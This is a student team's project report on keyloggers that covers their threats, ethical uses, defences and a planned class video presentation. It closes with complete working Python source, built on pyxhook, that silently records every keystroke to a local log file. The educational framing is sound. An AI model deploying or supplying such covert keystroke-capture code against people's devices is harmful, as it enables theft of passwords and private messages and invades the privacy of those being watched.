 # Keymaster
Key-Master 🔐: Creating & Understanding Keyloggers 
By NLOX
Luis Calderon, Nicole Iovino, O'Shayia Langston. and Xiong Zheng

Report Overview 🗒️

Keyloggers, or keystroke loggers, are tools that record what a person types on a device. Because keyloggers can record and quickly identify sensitive information, they are a significant threat to cybersecurity. To protect yourself, it’s important to know what keyloggers are, how to prevent an attack and how to remove a keylogger if you are attacked. In an attempt to better understand keyloggers the team at NLOX has researched and created our own simple keylogger, for educational purposes, and will outline the process in this report. 

Q1: The Problem / Opportunity 🎯

This report will detail what a keylogger is, how to create one, how it can be used by ethical / unethical hackers, and how to protect yourself/remove a keylogger should you suspect you have one.

Q2: Target Audience 👫

Students, employees, and lay persons (in order to protect yourself from threats its always best to understand how they work and operate).
Parents (who may use keyloggers as a form of parental control).
Information technology departments (can use keylogger software to troubleshoot issues on a device).
Companies outside of the tech space (keylogger software is often used as part of employee monitoring software to help track employee productivity).

Q3: The Hypothesis / Relevance📒

At NLOX we believe:

IF we create more awareness of keyloggers and their uses

⬇️

THEN we can better protect individuals and organizations against keylogging attacks

⬇️

BECAUSE 82% of breaches involve a human element, so even basic knowledge is crucial to limiting and preventing these types of attacks. 

With access to your personal information, malicious users can cause a lot of damage. It’s therefore important to protect yourself from keyloggers so you don’t become a victim. You can reduce the likelihood of an attack by learning what behaviors can make you vulnerable to keylogger attacks and what precautions can be taken. According to Verizon’s 2022 Data Breach Investigations Report, 82% of breaches involve a human element. By being aware of the dangers, you can bolster your cybersecurity in order to better protect yourself / your organization against keylogger attacks. This is why our team at NLOX found it so vital to create our own keylogger as a way to better understand its uses and threat potential. 

Q4: Supportive Data 📊

Our presentation will not only go into detail on what a keylogger is but we will also demonstrate how to create one (image 2) and how it functions (image 1). Below you will find images of the script we created to make our own keylogger. This script is designed to only work and save a "log file" to the host machine and is intended to be used like a parental control for informative purposes only. *This process will be further elaborated on in our video presentation.
We also intend to conduct extensive research on keyloggers usage in past known attacks such as "Darkhotel". a well-known keylogger malware attack that targeted unsecure Wi-Fi at hotels. While also making sure the presentation demonstrates the ethical uses of keyloggers.

Q5: The Result/Source Code 🧩

Our end will result will be an informative video presentation outlining our research. The presentation will outline our research on keyloggers. the steps we took to create our own, uses of keyloggers, and actions one can take against keyloggers. Roles: Nicole Iovino (Group Leader, Video editor), Luis Calderon (Scripting Examples Presentation), O'Shayia Langston (Ethical Uses of Keylogger), Xiong Zheng (Malware/Unethical Uses). Each team member will have a slide presenting a part of our groups overall research and created tools. The video will be between 3:00 - 5:00 minutes in length and displayed to our fellow classmates upon graduation.

Source Code:
#! /usr/bin/env python3
import os
import logging
import pyxhook
# Set the path to the log file, using the pylogger_file environment variable if available
# Otherwise, use the default path ~/Desktop/file.log
log_file = os.environ.get('pylogger_file', os.path.expanduser('~/Desktop/file.log'))
# Set the log format to include the timestamp, and specify the format of the timestamp
log_format = '%(asctime)s - %(message)s'
datefmt = '%Y:%m:%d %H:%M:%S'
# Configure the logging module with the log file path, log level, and log format
logging.basicConfig(filename=log_file, level=logging.INFO, format=log_format, datefmt=datefmt)
# This function will be called every time a key is pressed, and will log the key that was pressed
def OnKeyPress(event):
    logging.info(event.Key)
# Create an instance of the HookManager class from pyxhook
new_hook = pyxhook.HookManager()
# Set the KeyDown event to trigger the OnKeyPress function
new_hook.KeyDown = OnKeyPress
# Start the keylogger by calling HookKeyboard() on the HookManager instance
new_hook.HookKeyboard()
# Enter the event listener loop, which will keep the program running until it is stopped
new_hook.start()
